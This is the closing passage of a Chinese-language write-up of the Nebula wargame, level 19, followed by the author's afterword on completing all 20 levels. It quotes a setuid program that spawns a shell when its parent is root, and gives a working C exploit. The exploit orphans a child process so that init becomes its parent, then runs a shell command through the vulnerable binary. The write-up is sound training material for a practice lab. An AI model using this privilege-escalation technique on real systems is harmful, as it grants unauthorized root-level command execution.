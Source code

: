 ```cpp

  if(statbuf.st_uid == 0) {
    /* If root started us, it is ok to start the shell */

    execve("/bin/sh", argv, envp);
    err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
```

首先还是分析程序执行流程：程序启动后调用getppid()函数获取父进程id，之后查找/proc下该id进程是否属于root，如果是root的，则可以根据参数执行shell命令。

首先去/proc下面看看哪些进程属于root，注意到/proc/1。回想一下Linux进程机制，在父进程创建子进程后，如果父亲在子进程退出前因为种种原因结束了，那子进程就归pid=1的init进程管理了。而init是属于root，所以，我们可以设计一个程序，启动子进程后立马退出，这样子进程的新父进程就是init了：

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char *argv[]) {
	pid_t p;
	p = fork();
	if (p == 0) //child
	{
		sleep(1);
		execl("/home/flag19/flag19", "/bin/sh", "-c", "/bin/getflag > /tmp/flag19.txt", NULL);
	}
	else if(p > 0) //parent
		exit(0);
		
	return 0;
}
```

其中让子进程等待一秒后运行指令，保证父进程退出并让init接管。sh的-c参数用于将输入参数作为指令代替标准输入。

Voila！全部搞定！

# 后记 #

开始玩Nebula之后无法自拔，天天深陷其中，可能这就是所谓的痴迷吧。

刚做Nebula的时候觉得真的好简单，以为三四天就能完成，很可惜到后面越做越慢，很多周边知识都是边查边补充，碰到不懂得可能就得完整的系统的学习，用了不少时间，但是非常值得。

虽然现在20道题都已经完成，但是有些题目的方法还比较局限，待我学会高级的技巧后，会再回来补充一些思路或方案。

希望这20道题的Writeup能给你帮助。如果你已经完成，那就和我一起进军下一个级别的挑战！